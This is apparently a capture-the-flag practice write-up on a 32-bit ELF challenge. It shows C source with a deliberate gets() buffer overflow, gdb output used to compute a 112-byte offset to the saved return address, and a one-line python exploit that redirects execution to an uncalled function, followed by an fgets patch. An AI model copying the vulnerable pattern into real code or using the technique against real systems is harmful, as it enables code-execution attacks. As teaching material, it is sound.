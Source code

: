 irst let's see if it is a 32 bit or 64 bit elf.

```
root@tux:/Hackery/escape/buf_ovf/b3# file b3
b3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=04ca21b1b588df970bdcb4763cbc9e647fe73c94, not stripped
```

Now that we know it is a 32 bit elf, let's take a look at the source code...

```
#include <stdio.h>
#include <stdlib.h>

void fun0()
{
        char buf0[100];
        printf("What is 1 divided by 0?\n");
        gets(buf0);
}


int main()
{
        printf("To reach the end of this room, you must answer one simple question with base 10 numbers.\n");
        fun0();
}

void end()
{
        printf("That is one way of reaching the end. Level Cleared\n");
}
```

So we can see here, our objective is to get the code to run the end() function. However it isn't called anywhere in the code, or given the oppurtunity to through the use of something like an if then statement. However 
in the fun0() function, it has a buffer overflow vulnerabillity. We can use the buffer overflow vulnerabillity to overflow the eip register (since it is 32 bit) to change the return address to that of the end() functio, so when the fun0 function finishes it will run the end() function.

We will need to calculate the difference between the start of our input and where the eip register is stored. For this we can use gdb.

```
guyinatuxedo@tux:/Hackery/escape/buf_ovf/b3$ gdb ./b3
```

One wall of text later...

```
gdb-peda$ disas fun0
Dump of assembler code for function fun0:
   0x0804843b <+0>:     push   ebp
   0x0804843c <+1>:     mov    ebp,esp
   0x0804843e <+3>:     sub    esp,0x78
   0x08048441 <+6>:     sub    esp,0xc
   0x08048444 <+9>:     push   0x8048530
   0x08048449 <+14>:    call   0x8048310 <puts@plt>
   0x0804844e <+19>:    add    esp,0x10
   0x08048451 <+22>:    sub    esp,0xc
   0x08048454 <+25>:    lea    eax,[ebp-0x6c]
   0x08048457 <+28>:    push   eax
   0x08048458 <+29>:    call   0x8048300 <gets@plt>
   0x0804845d <+34>:    add    esp,0x10
   0x08048460 <+37>:    nop
   0x08048461 <+38>:    leave
   0x08048462 <+39>:    ret
End of assembler dump.
gdb-peda$ b *fun0+34
Breakpoint 1 at 0x804845d
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b3/b3
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
0000
```

Another wall of text later...

```
Breakpoint 1, 0x0804845d in fun0 ()
gdb-peda$ x $ebp-0x6c
0xffffcfcc:     0x30303030
gdb-peda$ info frame
Stack level 0, frame at 0xffffd040:
 eip = 0x804845d in fun0; saved eip = 0x8048489
 called by frame at 0xffffd060
 Arglist at 0xffffd038, args:
 Locals at 0xffffd038, Previous frame's sp is 0xffffd040
 Saved registers:
  ebp at 0xffffd038, eip at 0xffffd03c
gdb-peda$ print end
$1 = {<text variable, no debug info>} 0x8048496 <end>
```

So we have the location of where the buffer starts, which is 0xffffcfcc. In addition to that we also have the location of the eip register 0xffffd03c, and the location of the end() function 0x8048496. Now to calculate the offset between the start of our input, and the eip register.

```
root@tux:/home/guyinatuxedo# python
Python 2.7.12 (default, Nov 19 2016, 06:48:10)
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xffffd03c - 0xffffcfcc
112
>>> quit()
root@tux:/home/guyinatuxedo#
```

So we need to input 112 bytes in order to reach the eip register. Then we can push the eip register onto the stack in little endian. Let's make an exploit to do that.

```
root@tux:/Hackery/escape/buf_ovf/b3# python -c 'print "0"*112 + "\x96\x84\x04\x08"' | ./b3
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
That is one way of reaching the end. Level Cleared
Segmentation fault (core dumped)
```

And just like that, we hijacked code execution and pwned the binary. Now let's patch it.

```
#include <stdio.h>
#include <stdlib.h>

void fun0()
{
        char buf0[100];
        printf("What is 1 divided by 0?\n");
        fgets(buf0, sizeof(buf0), stdin);
}


int main()
{
        printf("To reach the end of this room, you must answer one simple question with base 10 numbers.\n");
        fun0();
}

void end()
{
        printf("That is one way of reaching the end. Level Cleared\n");
}
```

Let's test our patch by trying to overflow it's buffer.

```
root@tux:/Hackery/escape/buf_ovf/b3# python -c 'print "0"*200' | ./b3_secure
To reach the end of this room, you must answer one simple question with base 10 numbers.
What is 1 divided by 0?
```





